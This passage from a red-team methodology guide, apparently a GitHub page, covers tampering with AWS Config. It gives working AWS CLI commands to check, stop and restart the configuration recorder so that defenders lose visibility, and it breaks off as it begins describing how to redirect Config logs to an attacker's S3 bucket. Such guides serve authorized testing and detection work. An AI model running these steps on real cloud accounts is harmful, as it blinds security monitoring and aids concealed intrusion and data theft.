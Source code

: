 ## 🛡️ Part 2: Evasion & Tampering Methodology

These actions alter the state of the AWS Config service. **Execute with extreme caution and only in authorized test environments.**

### Chain 1: Disabling Config Recording

The most direct way to blind defenders.

**Goal:** Stop AWS Config from recording any new configuration changes.

#### 1. Check Recorder Status

See if it's currently running:

```bash
aws configservice describe-configuration-recorders
```

**Check if Recording is Active:**
```bash
aws configservice describe-configuration-recorder-status | \
  jq '.ConfigurationRecordersStatus[] | {name, recording}'
```

#### 2. Stop the Recorder

```bash
aws configservice stop-configuration-recorder --configuration-recorder-name "default"
```

**Verification:**
```bash
aws configservice describe-configuration-recorder-status
# Look for "recording": false
```

#### 3. Restart the Recorder (Cleanup)

```bash
aws configservice start-configuration-recorder --configuration-recorder-name "default"
```

**Impact:**
- All configuration changes go unrecorded
- Compliance rules cannot evaluate new changes
- Creates a blind spot in security monitoring
- **High detection probability** - should trigger CloudWatch alarms

---

### Chain 2: Hijacking the Log Delivery Channel

A stealthy and powerful technique to exfiltrate data and blind monitoring.

**Goal:** Redirect all AWS Config logs and snapshots to an S3 bucket you control.

#### 1. Discover the Current Delivery Channel
